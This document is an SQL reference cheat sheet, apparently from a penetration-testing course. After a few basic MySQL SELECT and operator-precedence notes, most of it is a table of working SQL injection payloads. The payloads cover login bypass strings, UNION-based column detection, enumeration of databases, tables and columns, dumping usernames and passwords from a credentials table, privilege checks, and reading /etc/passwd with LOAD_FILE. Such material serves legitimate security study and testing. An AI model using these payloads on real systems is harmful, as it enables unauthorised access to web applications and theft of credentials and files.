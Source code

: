 | `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |